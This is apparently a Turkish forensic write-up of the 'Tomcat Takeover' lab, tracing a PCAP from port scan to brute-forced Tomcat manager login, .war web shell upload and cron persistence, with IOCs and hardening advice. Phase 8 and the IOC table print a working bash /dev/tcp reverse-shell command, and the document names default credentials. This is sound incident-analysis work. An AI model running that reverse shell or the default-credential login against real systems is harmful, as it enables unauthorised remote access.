










English ([README.en.md](README.en.md)) | Türkçe (bu sayfa)

# Vaka Analizi: Tomcat Takeover — Network Forensics

| Kategori | Açıklama |
| :--- | :--- |
| **Odak Alanı** | Network Forensics, Web Uygulama Saldırı Analizi |
| **Delil** | `web server.pcap` (Intranet web sunucusu trafiği) |
| **Araçlar** | Wireshark, Base64 decoder, IP Geolocation |

---

## 1. Özet (Executive Summary)
SOC ekibi, intranetteki Apache Tomcat sunucusunda şüpheli yönetim erişimleri tespit etti. PCAP analizi, saldırganın önce port taraması (recon), ardından Tomcat `/manager` panelini bulup kaba kuvvetle giriş yaptığını, `.war` web kabuğu yükleyip ters kabuk (reverse shell) aldığını ve cron ile kalıcılık sağladığını gösterir. Saldırgan IP `14.0.0.120` olup coğrafi konum verileri Çin’i işaret etmektedir. Kanıtlar Wireshark filtreleri, HTTP başlıkları, Basic Auth verisi ve TCP/HTTP stream içeriklerine dayanmaktadır.

---

## 2. Teknik Analiz (Hipotez Odaklı)
Her fazda: Hipotez → Test → Bulgular. Görseller dizin altındaki ilgili dosyalardır.

### Faz 1 — Saldırgan IP Tespiti (Q1)
- **Hipotez**: Yeni bağlantı istekleri (SYN) çok sayıda farklı hedef porta gidiyorsa taramayı başlatan IP saldırgandır.
- **Test**: Wireshark filtresi: `tcp.flags.syn == 1 and tcp.flags.ack == 0`
- **Bulgular**: `14.0.0.120` → `10.0.0.112` adresine 80/443/8080 dahil çok sayıda porta SYN; tarama paterni.

### Faz 2 — Coğrafi Konum (Q2)
- **Hipotez**: Saldırgan IP’si OSINT ile ülkelenebilir.
- **Test**: IP2Location/MaxMind sorgusu.
- **Bulgular**: `14.0.0.120` → Country: China.

### Faz 3 — Yönetim Paneli Portu (Q3)
- **Hipotez**: Tomcat yönetim arayüzü genellikle 8080’dedir.
- **Test**: `ip.addr == 14.0.0.120 and http` filtresiyle 8080 üzerindeki HTTP istekleri incelendi.
- **Bulgular**: 8080 portunda Tomcat yönlendirmeleri ve yanıtlar görülür; admin panel portu: `8080`.

### Faz 4 — Dizin Keşif Aracı (Q4)
- **Hipotez**: Dizin brute‑force araçları User‑Agent’ta iz bırakır.
- **Test**: İsteklerin HTTP başlıklarında User‑Agent kontrol edildi.
- **Bulgular**: `User-Agent: gobuster/3.6` → kullanılan araç: `gobuster`.

### Faz 5 — Keşfedilen Yönetim Dizini (Q5)
- **Hipotez**: Başarılı keşif 302/401 gibi 404 dışı yanıtlarla anlaşılır.
- **Test**: `GET /manager` istekleri ve yanıt kodları incelendi.
- **Bulgular**: 302 ardından 401 yanıtları; yönetim dizini: `/manager`.

### Faz 6 — Başarılı Giriş Bilgileri (Q6)
- **Hipotez**: İlk `200 OK` öncesindeki istekte Basic Auth kimlik bilgileri bulunur.
- **Test**: `GET /manager/html` için 401 serisi sonrası ilk `200 OK` öncesi isteğin `Authorization: Basic ...` başlığı çözümlendi.
- **Bulgular**: Base64 decode → `admin:tomcat`.

### Faz 7 — Yüklenen Kötü Amaçlı Dosya (Q7)
- **Hipotez**: `.war` yüklemesi `POST /manager/html/upload` akışında görünür.
- **Test**: İlgili POST isteğinde form alanları ve `Content-Disposition` incelendi.
- **Bulgular**: `filename="JXQOZY.war"` — yüklenen dosya adı.

### Faz 8 — Kalıcılık Komutu (Q8)
- **Hipotez**: Ters kabuk sonrası cron’a yazılan komut TCP stream içinde görülebilir.
- **Test**: Sunucudan saldırgana giden yeni TCP akışında komutlar incelendi (`Follow TCP Stream`).
- **Bulgular**: Cron’a yazılan komut:
`/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`

---

## 3. Göstergeler (IOCs)
| Tür | Değer |
|---|---|
| Saldırgan IP | `14.0.0.120` |
| Kurban Web Sunucusu | `10.0.0.112` |
| Ülke | China |
| Admin Portu | 8080 |
| Keşfedilen Dizin | `/manager` |
| Kimlik Bilgileri | `admin:tomcat` |
| Yüklenen Dosya | `JXQOZY.war` |
| Kalıcılık Komutu | `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'` |

---

## 4. Sonuç ve Değerlendirme
Saldırgan, tarama ile servisleri keşfetmiş, Tomcat yönetim arayüzünü (`/manager` @ 8080) bulup `admin:tomcat` kimlik bilgileriyle giriş yapmış, `.war` yükleyerek uzaktan komut çalıştırmış ve cron ile kalıcılık sağlamıştır. PCAP analizi Wireshark filtreleri, HTTP başlıkları ve stream içerikleriyle tüm aşamaları doğrulamaktadır. Öneriler: Tomcat yönetim arayüzünü internetten ayırma, güçlü parolalar, MFA, yükleme endpoint’lerine yetkilendirme, ters proxy ve WAF, ayrıntılı erişim log’ları ve IDS uyarıları.
